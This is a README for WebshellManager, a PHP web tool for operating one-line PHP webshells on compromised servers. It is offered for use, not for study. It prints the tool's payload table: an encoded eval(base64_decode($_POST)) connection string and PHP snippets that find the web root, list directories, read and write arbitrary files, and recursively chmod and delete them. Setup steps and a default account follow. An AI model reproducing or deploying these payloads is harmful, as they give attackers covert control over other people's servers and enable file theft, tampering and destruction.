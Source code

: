 ## WebshellManager

> 一款无聊的时候用PHP写的一句话WEB端管理工具 名字叫w8ay好了

## 介绍

- 目前仅支持对PHP的一句话进行操作
- 完成文件管理，支持对webshell中的文件进行增、删、改、查操作 可多选操作
- 支持自定义命令
- 完成多用户系统 注册 登陆

##自定义PHP命令

第二版本完成了自定义命令 在`include\model\PHPShell_Build_mothod.php`中自定义命令即可，将自动完成编码加密过程

```
var $phpshell = array(
		'link' => '{PASS}=%40eval%01%28base64_decode%28%24_POST%5Bz0%5D%29%29%3B&z0=',//连接前缀

		'safe' => "@ini_set('display_errors','0');@set_time_limit(0);@set_magic_quotes_runtime(0);",//payload前缀

		'flag_left' => 'echo("->|");',//左标志位

		'flag_right' => 'echo("|<-");die();',//右标志位

		'GetWebRoot' => '$D=dirname($_SERVER["SCRIPT_FILENAME"]);if($D==""){$D=dirname($_SERVER["PATH_TRANSLATED"]);}$arr = array("WebRoot" => $D);echo json_encode($arr);',//获取一句话目录
		
		'GetWebDiskFileList' => '$D=base64_decode($_POST["z1"]);$F=opendir($D);
if($F==NULL){echo("ERROR:// Path Not Found Or No Permission!");}else{$tmparr = array();	while($N=readdir($F)){$P=$D."/".$N;$T=date("Y-m-d H:i:s",filemtime($P));$E=substr(base_convert(fileperms($P),10,8),-4);$arr = array("time" => $T, "size" => filesize($P),"root" => $E,"path" =>urlencode(is_dir($P)?$N."/":$N));$tmparr[] = $arr;}echo json_encode($tmparr);closedir($F);};',//获取磁盘文件
		
		'GetWebFileContent' => '$F=base64_decode($_POST["z1"]);$P=@fopen($F,"r");echo(@fread($P,filesize($F)));@fclose($P);',//得到文件内容

		'CreateAndSaveFile' => 'echo @fwrite(fopen(base64_decode($_POST["z1"]),"w"),base64_decode($_POST["z2"]))?"1":"0";',//创建文件

		'DeleteFile' => 'function df($p){$m=@dir($p);while(@$f=$m->read()){$pf=$p."/".$f;if((is_dir($pf))&&($f!=".")&&($f!="..")){@chmod($pf,0777);df($pf);}if(is_file($pf)){@chmod($pf,0777);@unlink($pf);}}$m->close();@chmod($p,0777);return @rmdir($p);}$F=get_magic_quotes_gpc()?stripslashes($_POST["z1"]):$_POST["z1"];if(is_dir($F))echo(df($F));else{echo(file_exists($F)?@unlink($F)?"1":"0":"0");}',//删除文件
		);
```

## 截图

![](https://cloud.githubusercontent.com/assets/18695984/20028030/ab8cc3cc-a360-11e6-999b-c3cdc93cdef5.jpg)
![](https://cloud.githubusercontent.com/assets/18695984/20028031/aed8235a-a360-11e6-8c86-635d0714eb51.jpg)
![](https://cloud.githubusercontent.com/assets/18695984/19856900/797cceb6-9fb6-11e6-85b3-762c3f3b77d0.jpg)
![](https://cloud.githubusercontent.com/assets/18695984/19856909/8126a13c-9fb6-11e6-9251-8db0424e4f2b.jpg)

## 安装

- 导入文件中的 w8_webshell.sql  
- 按注释修改 config.php  
- 安装成功  
- 默认账号密码 w8ay@qq.com w8ay